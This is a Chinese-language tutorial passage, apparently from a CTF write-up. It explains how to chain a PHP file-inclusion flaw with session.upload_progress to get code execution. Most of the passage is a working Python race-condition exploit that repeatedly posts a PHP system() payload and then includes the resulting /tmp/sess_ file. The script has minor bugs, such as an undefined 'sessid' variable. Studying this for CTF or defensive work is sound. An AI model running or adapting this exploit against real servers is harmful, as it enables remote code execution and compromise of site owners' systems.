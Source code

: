 我们考虑进行文件包含，之后使用其他方法先对phpinfo进行查看，观察是否关闭了`session.upload_progress.cleanup`，若没有则可以直接使用burp上传恶意代码，若存在则需要不停上传同一个session来确保恶意代码能够执行。

###### 脚本编写

我们一般通过python进行脚本编写（python版本3.8+）

首先导入两个库

```
import threading
import requests
```

requests用来进行网络请求，threading用来分离线程，做到不断循环上传session从而竞争。

定义基本信息

```
target_url = "http://xxx.xxx.xxx.xxx/index.php"#据情况而定
session_id = "flag"#自行决定
expcode = {"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('ls');?>"}#自行要执行的代码
MyCookie = {'PHPSESSID': sessid}#设置本地cookie值和自定义的session_id一致
proxies = {
    "http": "127.0.0.1:8080",
}#设置本机代理，也可以不设置
```

编写竞争函数

```
def send_file(session):#形参为后面多线程的指令集提供入口
    while True:
        resp = requests.post(url=target_url, data=expcode, files={'file': ('res.txt', "nothing")}, cookies=MyCookie)
```

不停的上传同样的post请求。将结果存于res.txt中。

编写读取信息函数

```
def getflag(session):
    while True:
        payload_url = target_url + '?file=' + '/tmp/sess_' + session_id
        #根据漏洞进行伪协议读取文件
        resp = requests.get(url=payload_url)
        if 'upload_progress' in resp.text:
            print(resp.text)
            break
```

main函数

```
if __name__ == '__main__':
    session = requests.session()
    t = threading.Thread(target=send_file, args=(session,))#为竞争函数创建一个新线程
    t.start()
    #两个线程独立运行
    getflag(session)
```

